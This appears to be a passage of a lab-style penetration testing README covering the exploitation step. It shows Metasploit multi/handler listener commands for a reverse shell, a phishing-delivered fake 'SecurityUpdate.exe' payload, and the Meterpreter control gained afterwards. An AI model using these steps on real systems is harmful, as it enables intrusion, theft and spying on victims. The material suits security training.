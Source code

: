 # Exploitation

## Objective:
Activate the payload to execute the attack and gain control over the target system.

## Steps for Exploitation

1. Prepare the Metasploit Framework

    Now that we’ve sent the phishing email and the target has clicked the malicious link, we need to activate the payload using **Metasploit**.

    - **Run the command**: `msfconsole` to start the Metasploit console.

    - Then, use the exploit handler by entering the following command:
```
use exploit/multi/handler
```
- This configures the Metasploit framework to handle incoming connections from the payload on the target system.

![image](https://github.com/user-attachments/assets/2b9f26c2-9ef3-47ae-87fa-c33ac937abcb)

2. Configure the Exploit Settings

    Configure Metasploit to match the parameters used when creating the payload:

- Set **LHOST** to the attacker's IP address (the system that the victim will connect to).
- Set **LPORT** to the port that the attacker's machine is listening on.
- **Run** the Exploit

### Command Example:

```
set LHOST 10.19.19.134
set LPORT 4444
run
```

This ensures the reverse shell connects back to the attacker’s system on the correct IP and port.

3. Victim Downloads the Malicious Payload

    The victim opens the phishing email, clicks the link, and downloads the **SecurityUpdate.exe** file.

![image](https://github.com/user-attachments/assets/727ac1fe-d2f3-4f0a-886b-39619320f277)

Once the victim opens the **SecurityUpdate.exe** file, the payload will execute.

![image](https://github.com/user-attachments/assets/a1f11d44-0b7f-47bf-b7c2-63e06be8b66f)

4. Payload Execution and Connection
After the victim runs the malicious executable, a **Meterpreter shell** will open, connecting back to the attacker’s system.

![image](https://github.com/user-attachments/assets/38168808-8813-4f6a-9327-de80528a6a59)

![image](https://github.com/user-attachments/assets/b5b94c08-9f92-4cf6-9e9a-575f3d13b081)

![image](https://github.com/user-attachments/assets/b01d20c0-13e1-4d1d-a0fb-fde0962935a3)

![image](https://github.com/user-attachments/assets/7d67db6a-c265-41e8-a02d-af983018a56f)

![image](https://github.com/user-attachments/assets/ef287ea3-238b-4122-ad24-e7674a4fa523)

The attacker now has full control over the victim's system via the **Meterpreter shell**.

5. Full Control with Meterpreter

    The Meterpreter session provides the attacker with extensive control over the compromised system. The attacker can now run commands, gather information, and escalate privileges.

    Additional actions like browsing the file system, capturing screenshots, or even enabling the webcam can be done using Meterpreter.

6. Post-Exploitation

    The attacker can now explore the compromised system, gather sensitive data, or escalate privileges to gain higher access.




